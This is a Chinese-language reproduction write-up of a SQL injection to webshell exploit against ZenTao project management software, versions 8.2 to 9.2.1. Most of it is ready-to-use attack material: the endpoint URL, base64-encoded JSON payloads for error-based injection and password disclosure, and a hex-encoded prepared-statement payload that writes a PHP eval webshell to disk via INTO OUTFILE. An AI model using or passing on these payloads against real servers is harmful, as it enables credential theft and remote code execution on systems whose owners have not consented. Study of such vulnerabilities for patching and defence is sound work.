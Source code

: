 禅道 8.2-9.2.1 注入&getshell
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我这里用的官方集成环境版本8.4

    获取版本号：/index.php?mode=getconfig

![](./.resource/禅道8.2-9.2.1注入GetShell/media/rId24.jpg)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![](./.resource/禅道8.2-9.2.1注入GetShell/media/rId25.jpg)

没路径的报错exp：

    {"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=

EXP

    提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：<http://127.0.0.1:81/zentao/>

注入显密码：

    {"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

不知道什么原因，本地复现无账号密码回显。。。

![](./.resource/禅道8.2-9.2.1注入GetShell/media/rId27.jpg)

前台GetShell：

    {"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

    select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

    73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

访问之即可在目录下生成hack.php：

image
